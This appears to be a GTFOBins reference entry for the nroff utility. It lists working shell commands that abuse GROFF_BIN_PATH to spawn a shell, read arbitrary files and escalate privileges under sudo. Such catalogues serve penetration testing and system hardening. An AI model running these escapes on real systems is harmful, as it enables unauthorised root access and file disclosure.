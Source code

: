 # GTFOBin: nroff

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp -d)
echo '#!/bin/sh' > $TF/groff
echo '/bin/sh' >> $TF/groff
chmod +x $TF/groff
GROFF_BIN_PATH=$TF nroff
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file is typeset and some warning messages may appear.

```
LFILE=file_to_read
nroff $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp -d)
echo '#!/bin/sh' > $TF/groff
echo '/bin/sh' >> $TF/groff
chmod +x $TF/groff
sudo GROFF_BIN_PATH=$TF nroff
```